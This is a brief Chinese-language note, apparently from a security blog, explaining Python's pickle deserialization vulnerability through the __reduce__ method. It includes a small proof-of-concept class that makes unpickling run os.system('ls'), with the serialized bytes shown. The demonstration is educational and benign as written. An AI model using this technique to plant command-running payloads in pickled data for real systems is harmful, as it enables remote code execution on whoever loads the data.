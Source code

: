 ```yaml
---
title: "Pickle"
date: 2016-03-25 00:41
---
```


## pickle 序列化漏洞

* \_\_reduce\_\_(self)

当定义扩展类型时（也就是使用Python的C语言API实现的类型），如果你想pickle它们，你必须告诉Python如何pickle它们。 \_\_reduce\_\_ 被定义之后，当对象被Pickle时就会被调用。

它要么返回一个代表全局名称的字符串，Pyhton会查找它并pickle，

要么返回一个元组。这个元组包含2到5个元素，其中包括：**一个可调用的对象，用于重建对象时调用**；**一个参数元素，供那个可调用对象使用**；

被传递给 __setstate__ 的状态（可选）；

一个产生被pickle的列表元素的迭代器（可选）；

一个产生被pickle的字典元素的迭代器（可选）

```
import os
import pickle

class exp(object):

    def __reduce__(self):
        cmd = 'ls'
        return (os.system, (cmd,))

pickle.dumps(exp())
>  "cposix\nsystem\np0\n(S'ls'\np1\ntp2\nRp3\n."

pickle.dumps((os.system, ('ls',)))
> "(cposix\nsystem\np0\n(S'ls'\np1\ntp2\ntp3\n."

pickle.loads(pickle.dumps(exp()))
# it will do os.system(cmd)
> read.txt

pickle.loads(pickle.dumps((os.system, ('ls',))))
> (<function posix.system>, ('ls',))
```

